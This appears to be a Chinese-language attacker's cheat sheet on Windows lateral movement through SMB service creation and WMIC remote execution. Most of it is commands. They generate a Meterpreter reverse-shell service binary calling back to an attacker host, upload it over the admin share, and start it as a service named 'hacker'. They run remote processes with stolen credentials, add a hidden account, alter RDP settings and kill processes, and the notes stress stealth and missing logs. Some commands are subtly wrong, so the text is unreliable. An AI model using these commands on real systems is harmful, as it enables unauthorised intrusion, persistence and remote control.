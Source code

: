 **Sechedule Service over SMB**
+ 开启139、445端口
+ 目标主机管理员开启IPC$默认共享
+ 获取账号密码/hash

```bash
#-创建IPC链接
net use \\ip\ipc$ password /user:domain\username

#-查看
net use

#-上传exe
copy shell.exe \\ip\c$

##-sc创建服务
msfvenom -p windows/meterpreter/reverse/tcp -f exe-service LHOST=192.168.1.1 LPORT=4444 -o service.exe
sc \\<IP> create <servicename> binpath="<path>"
sc \\192.168.210.107 create hacker binpath="c:\shell1.exe"
#启动hacker服务
sc \\192.168.210.107 start hacker
```

## WmicExec
**Windows Management Instrumentation**.
WMI是从Windows98开始系统自带的一系列工具集。提供了/node选项，可以通过135端口上的RPC服务进行远程访问或者执行远程命令
+ windows默认不记录wmi操作记录到日志
+ 无文件攻击，隐蔽性高
+ 可收集信息、探测、反病毒、RCE、权限持久化
+ wmic is quieter than psexec
+ how works:
  > wmi allows to open process in host where you know users/(password/hash).
  > Then wmiexec use wmi to execute each command that is asked to execute.

```bash
wmic /? :brief
#-查看目标机进程信息
wmic /node:<目标机IP>/user:<name> /password:<password> process list brief

wmic /node:ip/user:username /password:pasword process call create "cmd.exe /c<命令> > C:\result.txt"

# 在目标主机上创建进程，新建用户
wmic /node:"10.10.1.10" /user:"name" /password:"pass" process call create 'cmd.exe /c net user test$ P@ssw0rd /add'

# 在目标主机上创建进程，注册表开启远程桌面并开启RDP远程桌面服务
wmic /node:"10.10.1.200" /user:"name" /password:"pass" process call create 'cmd.exe /c reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f'
wmic /node:"10.10.1.200" /user:"name" /password:"pass" process call create 'cmd.exe /c net start TermService'

# 在目标主机上终止进程
wmic /node:"10.10.1.10" /user:"name" /password:"pass" process where name="explorer.exe" call terminate

# Start a service
wmic /node:192.168.1.2 /user:CORP\user /password:password process call create "C:\Windows\System32\service.exe”

```

